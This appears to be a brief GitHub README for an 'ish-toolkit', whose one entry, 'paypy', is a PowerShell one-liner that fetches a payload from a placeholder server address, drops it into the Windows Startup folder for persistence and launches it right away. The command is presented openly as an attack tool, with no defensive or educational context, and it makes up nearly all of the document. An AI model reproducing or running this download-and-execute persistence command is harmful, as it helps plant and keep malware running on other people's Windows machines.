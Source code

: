 # ish-toolkit
ish is a limited environment, thats why im making the toolkit 

# paypy
#### powershell command to store in shell:startup and run payload from server:
```powershell
$payload = 'PAYLOAD'; Invoke-WebRequest -Uri "http://IP:PORT/$payload" -OutFile "$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$payload"; Start-Process "$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$payload"
```
